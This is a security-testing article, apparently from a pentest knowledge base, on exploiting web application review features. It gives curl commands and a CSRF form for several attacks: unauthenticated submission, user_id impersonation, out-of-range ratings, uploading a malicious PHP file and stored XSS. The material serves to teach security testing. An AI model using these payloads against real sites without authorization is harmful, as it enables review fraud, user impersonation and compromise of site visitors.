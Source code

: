 ```yaml
---
title: 'Exploiting Web Review Features: Security Testing'
description: Learn techniques to test and exploit vulnerabilities in web application
  review features including unauthorized submissions and CSRF attacks.
keywords:
- unauthorized review submission
- review manipulation
- CSRF vulnerabilities
- business logic errors
- security testing
- web applications
- input validation
- file upload abuse
- stored XSS
---
```


# Review Feature Testing

## Context

The objective of this document is to enable offensive operators to identify and exploit business logic flaws in web application review features. The focus is on techniques such as unauthorized review submission, review manipulation, and abuse of review-related functionality. This article assumes that the reader has knowledge of HTTP methods, session management, CSRF protection, input validation, and the fundamentals of business logic errors.

## Theory

### Review Feature Trust Model

Review features are designed to allow authenticated users to submit feedback or ratings for products or services. These features often rely on certain trust assumptions, such as only eligible users being able to submit reviews and only once per item. The integrity of these reviews is contingent upon proper authentication, authorization, and input validation to prevent abuse.

### Common Review Feature Vulnerabilities

Common vulnerabilities within review features include:

- **Lack of Access Control**: This can allow unauthorized users to submit reviews or enable multiple submissions by the same user for a single product, thereby skewing the rating metrics.
- **Improper Input Validation**: Without stringent validation, attackers can manipulate review scores or embed cross-site scripting (XSS) payloads within reviews.
- **Missing CSRF Protections**: The absence of cross-site request forgery (CSRF) protections can enable attackers to post reviews on behalf of other users without their knowledge.
- **Insufficient File Validation**: This can result in the acceptance and storage of malicious files attached to reviews, leading to potential code execution or other exploits.

### Attacker Mindset: Exploiting Review Logic

To effectively exploit review features, an attacker should:

- Identify endpoints and parameters associated with review submission and editing.
- Test the ability to submit reviews without being authenticated or as another user.
- Attempt to bypass any restrictions imposed on review frequency or rating scales.
- Probe for vulnerabilities related to CSRF in review submission forms.
- Examine file upload fields for weaknesses that allow the upload of malicious files.

## Practice

### Unauthorized Review Submission via Direct Request

Attempting unauthorized review submission can be done using a direct HTTP request. For example:

```bash
curl -X POST https://target.com/review/submit -d 'product_id=123&review=Great!&rating=5'
```

**Expected Outcome**: The ability to submit reviews without a valid user session, effectively bypassing authentication controls.

### Multiple Ratings for Same Product

To test the system's ability to prevent multiple reviews from the same user for a single product:

```bash
curl -b sessionid=abc123 -X POST https://target.com/review/submit -d 'product_id=123&review=Second+Review&rating=4'
```

**Expected Outcome**: The application allows multiple submissions, indicating a flaw in application logic that should prevent such occurrences.

### Review Impersonation via Parameter Tampering

Manipulating the `user_id` parameter to impersonate another user during review submission:

```bash
curl -b sessionid=attacker -X POST https://target.com/review/submit -d 'product_id=123&user_id=victim&review=Fake+Review&rating=1'
```

**Expected Outcome**: The review is recorded as if it was submitted by the `victim`, demonstrating an authentication bypass.

### Review Score Manipulation Beyond Allowed Range

Submit a rating outside the documented scale to test input validation:

```bash
curl -b sessionid=abc123 -X POST https://target.com/review/submit -d 'product_id=123&review=Invalid+Score&rating=999'
```

**Expected Outcome**: The application accepts an out-of-range or invalid review score, revealing weak validation controls.

### CSRF Review Posting

By crafting a CSRF payload, attackers can submit a review on behalf of other users:

```html
<form action='https://target.com/review/submit' method='POST'>
    <input name='product_id' value='123'>
    <input name='review' value='CSRF Review'>
    <input name='rating' value='5'>
    <input type='submit'>
</form>
```

**Expected Outcome**: Reviews are posted without user consent, signifying a CSRF vulnerability.

### Malicious File Upload in Review Attachment

Testing for execution or storage of malicious files via review attachments:

```bash
curl -b sessionid=abc123 -F 'product_id=123' -F 'review=File Test' -F 'rating=5' -F 'attachment=@malicious.php' https://target.com/review/submit
```

**Expected Outcome**: The application accepts the malicious file, indicating a file upload vulnerability.

### Stored XSS via Review Content

Inject a JavaScript payload within the review content to test for XSS:

```bash
curl -b sessionid=abc123 -X POST https://target.com/review/submit -d 'product_id=123&review=<script>alert(1)</script>&rating=5'
```

**Expected Outcome**: Stored XSS is executed when the reviews are viewed, compromising browser security.

## Tools

- **curl**
- **Burp Suite**
- **OWASP ZAP** 

These tools are essential for identifying and exploiting vulnerabilities in review features, offering users powerful capabilities for HTTP requests manipulation, web application scanning, and intercepting requests for further analysis.